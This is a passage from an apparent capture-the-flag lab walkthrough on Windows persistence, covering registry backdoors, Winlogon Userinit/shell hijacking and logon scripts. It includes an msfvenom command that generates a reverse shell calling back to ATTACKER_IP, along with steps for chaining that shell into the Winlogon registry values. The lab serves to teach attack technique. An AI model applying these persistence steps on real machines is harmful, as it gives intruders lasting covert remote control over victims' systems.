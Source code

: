 Note: While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.

### 18.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

### Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

* `Userinit` points to userinit.exe, which is in charge of restoring your user profile preferences.
* `shell` points to the system's shell, which is usually explorer.exe.

### 19.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

`user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe`

We'll transfer the shell to our victim machine as we did previously.

We then alter either shell or Userinit in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with shell is the same.

**Note:** While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.

### 20.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

## Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

